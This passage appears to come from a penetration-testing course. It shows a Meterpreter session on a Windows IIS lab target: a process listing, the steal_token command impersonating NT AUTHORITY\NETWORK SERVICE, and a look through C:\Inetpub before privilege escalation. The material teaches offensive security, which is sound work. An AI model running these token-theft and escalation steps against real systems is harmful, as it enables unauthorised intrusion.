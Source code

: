 ```shell-session
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```

Now that we have established at least some privilege level in the system, it is time to escalate that privilege. So, we look around for anything interesting, and in the `C:\Inetpub\` location, we find an interesting folder named `AdminScripts`. However, unfortunately, we do not have permission to read what is inside it.

#### MSF - Interacting with the Target

```cmd-session
c:\Inetpub>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is 246C-D7FE

 Directory of c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 File(s)              0 bytes
               4 Dir(s)  18,125,160,448 bytes free


c:\Inetpub>cd AdminScripts

cd AdminScripts
Access is denied.
```
